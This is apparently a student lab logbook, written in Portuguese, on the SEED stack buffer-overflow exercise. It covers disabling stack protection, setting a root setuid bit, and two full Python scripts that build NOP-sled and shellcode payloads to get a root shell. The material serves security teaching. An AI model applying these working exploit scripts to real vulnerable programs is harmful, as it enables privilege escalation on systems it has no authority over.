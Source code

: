# Trabalho realizado nas Semanas #5 e #6

![image](./Images/Logbook5/4.png)

## Task 1: Getting Familiar with Shellcode

Observamos que não houve diferença perceptível durante a execução dos dois programas compilados com versões de binários diferentes (32 e 64 bits). Ambos os programas abriram um shell no diretório em que foram executados.

![image](./Images/Logbook5/3.png)

## Task 2: Understanding the Vulnerable Program

Nesta etapa, tentamos explorar uma vulnerabilidade de 'buffer overflow' num programa de 32 bits. As seguintes observações foram feitas:

- Tentamos copiar uma entrada de 517 bytes para um buffer de 100 bytes usando a função `strcpy`. Isso resultou num 'buffer overflow', uma vez que `strcpy` não verifica o tamanho do buffer.

- A entrada de 517 bytes foi lida de um arquivo que pode ser manipulado pelo 'user', o que significa que é possível inserir shellcode na pilha.

Para preparar o programa para exploração, compilamos o código-fonte com as seguintes opções:

```bash
gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
```
Explicando as opções:

- `-DBUF_SIZE=100`: Define o tamanho do buffer como 100.
- `-m32`: Compila o programa numa arquitetura de 32 bits.
- `-z execstack`: Permite que a pilha seja executável.
- `-fno-stack-protector`: Desativa a proteção da pilha.

![image](./Images/Logbook5/1.png)

Além disso, alteramos a propriedade do programa para "root" e definimos o bit "setuid" para que o programa seja executado com privilégios de root.

## Task 3: Launching Attack on 32-bit Program (Level 1)

### 3.1 Investigation

Para entender a vulnerabilidade e planear o ataque, executamos o código em modo de 'debug'. Isso permitiu-nos identificar a posição de retorno da função `bof()` e o início do buffer.

### 3.2 Launching Attacks

Para lançar o ataque, preparamos um shellcode de 32 bits e criamos um script que gera um arquivo chamado "badfile". O shellcode e o script incluem:

- O shellcode de 32 bits.
- A posição de início do buffer (ebp).
- O deslocamento calculado com base em ebp menos o início do buffer, acrescido de 4 bytes para o endereço de retorno.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode("latin-1")

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)  # Change this number
content[start : start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xFFFFCA98 + start  # Change this number
offset = 0xFFFFCA98 - 0xFFFFCA2C + 4  # Change this number

L = 4  # Use 4 for 32-bit address and 8 for 64-bit address
content[offset : offset + L] = (ret).to_bytes(L, byteorder="little")
##################################################################

# Write the content to a file
with open("badfile", "wb") as f:
    f.write(content)
```

Quando executamos o programa com o arquivo "badfile" gerado, o shellcode é executado com sucesso, resultando na abertura de um shell com privilégios de root.

![image](./Images/Logbook5/2.png)

## Task 4: Launching Attack on 32-bit Program (Level 2)

Como sabemos que o tamanho do buffer está entre 100 a 200 bytes, copiamos o return address ret 25 vezes para o buffer. Assim asseguramos que damos overwrite ao return address do programa original. Como na task 3, o nosso return address aponta para o shellcode criado por nós que fica separado da stack por um padding para o mesmo não ser alterado.

```
#!/usr/bin/python3
import sys

shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode("latin-1")

content = bytearray(0x90 for i in range(517))

##################################################################

start = 517 - len(shellcode)
content[start : start + len(shellcode)] = shellcode

ebp_offset = 100  # start of the range which is (100-200)
offset = ebp_offset + 4
ebp_addr = 0xffffd0b8
ret = ebp_addr + 120  # 120 as padding

L = 4
# in the next line 100 will be the addition in offset thus, we can achieve the range from 100 to 200, and 25 is the times we will pur retun address in our content variable.

content[offset : offset + 100] = (ret).to_bytes(L, byteorder="little") * 25

##################################################################

# Write the content to a file
with open("badfile", "wb") as f:
    f.write(content)
```
